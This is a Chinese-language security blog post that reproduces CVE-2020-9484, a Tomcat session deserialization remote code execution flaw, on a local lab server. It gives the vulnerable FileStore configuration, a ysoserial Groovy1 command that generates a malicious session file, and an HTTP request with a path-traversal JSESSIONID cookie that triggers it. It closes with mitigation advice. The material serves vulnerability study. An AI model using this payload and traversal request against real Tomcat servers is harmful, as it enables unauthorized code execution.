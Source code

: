 #  CVE-2020-9484 Tomcat Session 反序列化复现  
原创 TEST安全  TEST安全   2025-06-23 09:07  
  
一、漏洞概述  
  
　　Apache Tomcat发布通告称修复了一个源于持久化Session的远程代码执行漏洞（CVE-2020-9484）。  
  
漏洞条件比较苛刻：  
- tomcat必须启用session持久化功能FileStore  
  
- tomcat/lib或者WEB-INF/lib目录下的依赖存在可用的gadget  
  
- 在服务器上存在已知路径文件内容可控  
  
二、影响版本  
- Apache Tomcat: 10.0.0-M1 to 10.0.0-M4  
  
- Apache Tomcat: 9.0.0.M1 to 9.0.34  
  
- Apache Tomcat: 8.5.0 to 8.5.54  
  
- Apache Tomcat: 7.0.0 to 7.0.103  
  
三、漏洞复现  
  
漏洞复现环境:centos7.6  
  
下载Tomcat相应的版本，且解压到/soft/文件中（新建）  
  
https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.0.M1/bin/apache-tomcat-9.0.0.M1.zip  
```
mkdir /soft
wget https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.0.M1/bin/apache-tomcat-9.0.0.M1.zip
mkdir /tomcat90m1
unzip apache-tomcat-9.0.0.M1.zip -d /soft/tomcat90m1
```  
  
解压后我的路径如图   
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLlbLTFFjnG7I6HKvnHxp1jNM3TaOSGKiaLKQv8XwiaX0xpkGbLN5PxCcA/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图")  
  
修改文件/soft/tomcat90m1/apache-tomcat-9.0.0.M1/conf/context.xml     
添加Manager（session 持久化设置）  
添加如下内容:  
```
 <Manager className="org.apache.catalina.session.PersistentManager" sessionAttributeValueClassNameFilter=".*">
         <Store className="org.apache.catalina.session.FileStore" directory="/soft/" />
    </Manager>


```  
  
添加后内容如图:  
  
   
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLSB8X6E5MwcVSFP3cFWU0mZDa7nLEGbo7CYsOS9g7o4sY2tHql17A6A/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图1")  
  
在目录/soft/tomcat90m1/apache-tomcat-9.0.0.M1/lib   
下载groovy-2.3.9.jar包(别的包也可以，比如commons-collections4-4.0.jar，不过换包的话，**后面对应生成的payload命令也要相应变一下**  
)  
```
wget https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar

```  
```
```  
  
如图两个包至少要下载其中一个放到该目录/soft/tomcat90m1/apache-tomcat-9.0.0.M1/lib  
  
   
  
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLMYJSUicdcN6v3v82WPelMWqxL1OUYPARU0042iazeGA8OBu2tZZ936zw/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图2")  
  
配置tomcat环境变量  
```
vi /etc/profile
```  
  
添加下面几行到/etc/profile文件如图:  
```
export JAVA_HOME=/usr/lib/jvm/java-1.8.0-openjdk
export CATALINA_BASE=/soft/tomcat90m1/apache-tomcat-9.0.0.M1
export CATALINA_HOME=/soft/tomcat90m1/apache-tomcat-9.0.0.M1
export PATH=$JAVA_HOME/bin:$CATALINA_HOME/bin:$PATH
export CLASSPATH=.:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar

```  
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKL191w0Kx7WAo8UOTjGQyaMiadIxYmFrRicpCrgW4Tuou2EP46ahXZw4ew/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图3")  
  
   
  
运行Tomcat  
```
cd /soft/tomcat90m1/apache-tomcat-9.0.0.M1/bin
chmod 777 catalina.sh
./catalina.sh start
```  
  
启动后再浏览器访问8080端口，这个页面出来说明已经成功  
  
   
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLrWxe3iaqTbicFXXBr5Cx9OyaS0jIvtdTPZYohtIo9ibA4lQNDjFq4JUOg/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图4")  
  
   
  
使用github上的ysoserial工具在本地生成反序列化session文件，生成commons-collections4依赖的gadget恶意序列化数据(下面两种下载方式任选其1)：  
```
https://github.com/frohoff/ysoserial

https://www.xsssql.com/wp-content/uploads/2025/06/ysoserial-all.zip
```  
  
下载完成之后再本地生成session文件  
```
java -jar P:CVEysoserial-all.jar Groovy1 "touch /tmp/Test安全" > xsssql.session

```  
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLu8icOiawyE2GYhpgrxnNktrNxOtKU8DOdTFJbYCz1XoRsQSg4veo7iaHQ/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图5")  
  
   
  
   
  
将这个xsssql.session文件上传到/soft目录(在/soft/tomcat90m1/apache-tomcat-9.0.0.M1/conf/context.xml文件里面配置了session会话存放的目录为/soft)，此时的tmp目录我并没有放session文件，如图  
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLkOU8l45pWVETbFvpIOAHMjJbyicpEKxia4JKbcM54QPWZBrNR6TVNf7w/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图6")  
  
使用burp重放数据包，注意修改数据包中的Host: 127.0.0.1:8080(或直接在浏览器访问这个网站，tomcat将自动加载.session文件至内存)  
```
GET / HTTP/1.1
Host: 127.0.0.1:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Cookie: JSESSIONID=../../../../../../../../../soft/xsssql
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close



```  
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLj1apHMpF4kHmLeZxQfvM54gG40icaaM0dknKQyPLSjzwbtd5hCExZKg/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图7")  
  
重放之后查看刚刚传到/soft/xsssql.session文件已经消失，在/tmp目录中创建了一个 "Test安全" 的文件，如图:  
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKL7WF0Ie7w6TGVfnPv4Ln2QMGv3BDwdGd2yZ1wKK00w16zY7FVAhotcA/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图8")  
  
   
  
总结:  
  
根据测试，其实上面burp请求的数据包完成不用发也是可以导致漏洞触发成功，只需要通过浏览器访问这个网站即可，在访问这个网站的时候tomcat将自动加载写入的/soft/xsssql.session文件至内存，直接导致反序列化执行命令，要想使用该在漏洞则可以通过任意文件上传覆盖 context.xml文件，对于其他文章有说过滤../字符其实用途可能不大，原因不需要发送../的数据则可以导致漏洞触发，修复方案限制其他进程对context.xml文件写权限，  
不使用 FileStore  
  
  
